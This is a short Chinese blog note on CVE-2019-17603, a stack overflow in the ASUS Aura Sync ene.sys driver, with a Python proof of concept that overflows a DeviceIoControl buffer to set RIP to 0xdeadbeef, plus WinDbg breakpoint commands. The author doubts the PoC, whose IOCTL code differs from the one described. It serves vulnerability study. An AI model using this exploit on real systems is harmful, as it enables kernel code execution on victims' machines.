## 0x01 CVE-2019-17603-栈溢出

ASUS Aura Sync version 1.07.71中有一个叫ene.sys的内核驱动  
对应IOCTL：0x80102044，0x80102050，0x80102054  
处理0x80102050时  

```c
memmove(RCX, RDX, R8);
         |    |    |
        dst  src  len
```

相关的poc  
```python
#!/usr/bin/python

from ctypes import *
import struct
import sys

kernel32 = windll.kernel32
ntdll = windll.ntdll
NULL = 0x00

def run():
    handle = kernel32.CreateFileA("\\\\.\\EneIo", 0xC0000000, 0, None,
                                  0x3, 0, None)
    if not handle or handle == -1:
        sys.exit("[-] Error getting device handle")

    shellcode = struct.pack("<Q", 0xdeadbeef) # RIP == 0xdeadbeef
    buf = "A" * 56 + shellcode

    raw_input("Press Enter to Trigger Vuln")
    driver = kernel32.DeviceIoControl(handle, 0x80102040, buf, len(buf),
                                      NULL, NULL, 0, NULL)
    if not driver or driver == -1:
        sys.exit("[-] Error")

if __name__ == "__main__":
    run()
```

在windbg中运行   
```
!process 0 0 python.exe 
ba e1 /p ${PROCCESSID} ene+0x14b8  //下断点
g
```

感觉poc和描述不符，而且其中的ret地址偏移很神奇啊   
没有找到旧版的sys，看一下漏洞原因以及poc的写法就好了  

然后就想起来大佬的[kDriver-Fuzzer](https://github.com/k0keoyo/kDriver-Fuzzer)，这几天试着编译一下  

[ASUS Aura Sync: Stack-Based Buffer Overflow](https://zer0-day.pw/2020-06/asus-aura-sync-stack-based-buffer-overflow/)

